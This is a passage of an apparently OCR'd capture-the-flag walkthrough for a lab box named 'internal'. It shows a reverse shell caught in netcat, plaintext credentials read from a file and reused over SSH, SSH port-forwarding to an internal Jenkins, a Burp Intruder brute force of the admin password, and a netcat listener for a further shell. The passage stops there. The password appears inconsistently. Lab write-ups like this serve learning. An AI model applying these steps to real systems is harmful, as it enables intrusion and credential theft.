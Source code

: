     Now in the netcat we get reverse command shell
    
    now type the commands in shell
    
    $ `id`
    
    $ `ls -la`
    
    $ `cd /opt`
    
    $ `ls -la`
    
    $ cat wp-save.txt
    
    We got one more user cred aubreanna:bubb13guM!@123
    
    Now open new terminal and try to login that user vis ssh
    
    $ `ssh aubreanna@10.10.10.10`
    
    password: bubb13guM!@123
    
    Got user terminal
    
    aubreanna@internal$ get the user flag here
    
    aubreanna@internal$ `ls`
    
    aubreanna@internal$ `jenkins.txt`
    
    Internal jenkins is running on 172.17.0.2:8000
    
    aubreanna@internal$ `netstat -ano`
    
    Got to the terminal
    
    $ `ssh -L 8080:172.17.0.2:8080 auberenna@10.10.10.10`
    
    password: bubb13guM!@#123
    
    Now we got login also with docker0 ip
    
    Now go to the website and type 127.0.0.1:8080 is the jenkins login page
    
    Now brute force the password of admin
    
    Go to burp suite
    
    capture the login request
    
    send to intruder
    
    add password
    
    payload use: desktop/customwordlist/kerbrutpass.txt
    
    Got cred admin:spongebob
    
    login to the website using the credentials
    
    Manage jenkins> script console
    
    open netcat listener in aubereana terminal
    
    aubreanna@internal$ `nc -nvlp 8044`
    